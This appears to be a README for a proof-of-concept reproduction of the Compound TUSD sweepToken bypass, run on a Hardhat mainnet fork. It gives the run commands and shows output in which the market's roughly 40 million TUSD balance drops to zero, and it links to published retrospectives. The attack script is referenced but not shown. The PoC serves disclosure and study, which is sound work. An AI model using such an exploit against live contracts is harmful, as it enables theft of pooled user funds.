 # Compound-TUSD sweepToken bypass vulnerable PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Compound TUSD balance: 39961358.379339258374306712
Exploiting...
Exploit complete.
Compound TUSD balance: 0.0
```
This means the attack is complete
> The block height of the fork is 14266479


## Link

* https://blog.openzeppelin.com/compound-tusd-integration-issue-retrospective/
* https://medium.com/chainsecurity/trueusd-compound-vulnerability-bc5b696d29e2
